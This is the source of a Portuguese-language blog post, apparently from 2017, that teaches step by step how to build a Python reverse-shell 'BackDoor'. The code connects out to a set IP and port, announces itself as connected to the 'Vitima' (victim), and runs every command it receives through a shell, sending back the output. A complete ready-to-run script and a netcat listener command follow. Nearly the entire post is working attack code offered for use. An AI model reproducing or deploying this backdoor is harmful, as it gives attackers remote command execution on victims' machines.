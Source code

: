 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDoor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDoor".

<dt>1. vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Antes de começar vamos definir 2 variáveis para a "Porta" é "IP" onde o backdoor ira se conectar. </dt>

{% highlight python %}
# Seu Ip ou Ip externo 
HOST = '192.168.1.40'
# Sua porta  
PORT = 90
{% endhighlight %}

<dt>3. Agora temos que definir o tipo de socket, neste caso sera usado o socket do tipo TCP.</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
{% endhighlight %}

<dt>4. Aqui estamos conectando o socket no ip e porta que definimos acima.</dt>
{% highlight python %}
# Conectando ou Ip e a Porta 
s.connect((HOST, PORT))
{% endhighlight %}

<dt>5. Agora vamos enviar uma "mensagem para o servidor indicando que nos conectamos a ele."</dt>
{% highlight python %}
# Mensagem indicando que estamos conectado
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
{% endhighlight %}

<dt>6. Agora vamos criar um "loop" para recebermos comando externos de um servidor. </dt>
{% highlight python %}
while 1:
     data = s.recv(1024)
# Se dermos o comando "quit" paramos o loop 
     if data == "quit": break
# Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     stdout_value = proc.stdout.read() + proc.stderr.read() 
     s.send(stdout_value)
# Fechamos o socket 
s.close()
{% endhighlight %}

<dt> A qui abaixo esta os servidor já pronto é uma imagem dele conectado ao "NetCat"</dt>
{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
HOST = '192.168.1.40'    # Seu Ip ou No-Ip
PORT = 90                # Sua porta 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
while 1:     
     data = s.recv(1024)    
     if data == "quit": break
     # Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")     
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)     
     stdout_value = proc.stdout.read() + proc.stderr.read()
     s.send(stdout_value)
s.close()
{% endhighlight %}

<figure>
	<img src="{{ '/assets/img/socket.png' | prepend: site.baseurl }}" alt=""> 
	<dd>Usando o NetCat Exp:</dd>
	<figcaption>nc -vnlp "90" tem que ser a porta que definimos na variável "PORT" </figcaption>
</figure>






